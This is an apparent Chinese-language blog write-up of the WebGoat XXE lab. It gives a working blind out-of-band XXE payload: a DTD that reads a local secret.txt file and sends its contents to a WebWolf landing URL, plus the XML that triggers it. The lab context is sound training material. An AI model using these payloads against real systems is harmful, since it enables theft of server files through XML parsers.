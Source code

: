 然后就是让%file拼接在url后面访问

```dtd
<!ENTITY % sendtest SYSTEM 'http://127.0.0.1:9090/WebWolf/landing?text=%file'>  
```

- **问题**：在这个定义中，`%file` 是一个外部实体，它的内容是从文件中读取的。由于 DTD 的解析机制，`%file` 在这里不会被解析为文件内容，而是被视为一个未解析的实体引用。
- **结果**：当您尝试使用 `sendtest` 实体时，`%file` 不会被替换为 `secret.txt` 的内容，因此 URL 将不包含您期望的文件内容。
为了实现您的目标，您需要使用一个中间步骤来确保 `%file` 的内容在构造 URL 时被正确解析。

```dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY test SYSTEM "file:///home/webgoat/.webgoat-2023.8/XXE/testtest/secret.txt">
<!ENTITY % file SYSTEM "file:///home/webgoat/.webgoat-2023.8/XXE/testtest/secret.txt">
<!ENTITY % print "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1:9090/WebWolf/landing?text=%file;'>">
```

%实体的调用顺序也不能改变
理解一下大概是先引用整个实体文件，有`%ls`才会看到dtd文件的访问记录
然后`%print`带过来`%send`的定义，最后才能使用`%send`

```xml
<!DOCTYPE author [
  <!ENTITY % ls SYSTEM "http://127.0.0.1:9090/WebWolf/files/testtest/attack.dtd">
%ls;
%print;
%send;
]>
<comment>
  <text>
end
</text></comment>
```

最后看到的
![](../../images/Pasted%20image%2020241127090220.png)

用url解码`WebGoat 8.0 rocks... (XJvTsSxmYh)`
再评论上去


---

这篇就到这里吧，下一篇再继续写  
## @PHOEXINA

